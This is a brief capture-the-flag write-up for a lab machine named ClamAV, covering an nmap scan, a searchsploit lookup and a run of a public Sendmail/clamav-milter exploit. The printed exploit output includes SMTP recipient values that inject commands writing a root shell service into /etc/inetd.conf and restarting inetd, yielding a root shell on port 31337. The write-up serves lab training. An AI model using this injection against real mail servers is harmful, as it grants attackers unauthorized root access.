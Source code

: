 # ClamAV

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.42
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 21:01 +08
Warning: 192.168.175.42 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.175.42
Host is up (0.17s latency).
Not shown: 65448 closed tcp ports (conn-refused), 80 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
60000/tcp open  unknown
```

### ClamAV Root

This machine was obviously hinting towards abusing ClamAV, the Antivirus. The SMTP port was open, and we can search for exploits using `searchsploit`:

```
$ searchsploit clamav    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Clam Anti-Virus ClamAV 0.88.x - UPX Compressed PE File Hea | linux/dos/28348.txt
ClamAV / UnRAR - .RAR Handling Remote Null Pointer Derefer | linux/remote/30291.txt
ClamAV 0.91.2 - libclamav MEW PE Buffer Overflow           | linux/remote/4862.py
ClamAV < 0.102.0 - 'bytecode_vm' Code Execution            | linux/local/47687.py
ClamAV < 0.94.2 - JPEG Parsing Recursive Stack Overflow (P | multiple/dos/7330.c
ClamAV Daemon 0.65 - UUEncoded Message Denial of Service   | linux/dos/23667.txt
ClamAV Milter - Blackhole-Mode Remote Code Execution (Meta | linux/remote/16924.rb
ClamAV Milter 0.92.2 - Blackhole-Mode (Sendmail) Code Exec | multiple/remote/9913.rb
Sendmail with clamav-milter < 0.91.2 - Remote Command Exec | multiple/remote/4761.pl
----------------------------------------------------------- ---------------------------------
```

The last exploit looked interesting because it had 'Sendmail' in it. We can try it out:

```
$ perl 4761.pl 192.168.175.42
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.175.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sat, 1 Jul 2023 13:02:43 -0400; (No UCE/UBE) logging access from: [192.168.45.164](FAIL)-[192.168.45.164]
250-localhost.localdomain Hello [192.168.45.164], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 361H2hEV004002 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

This exploit would spawn a `root` shell on port 31337 which we can connect to:

<figure><img src="../../../.gitbook/assets/image (3114).png" alt=""><figcaption></figcaption></figure>

Rooted!
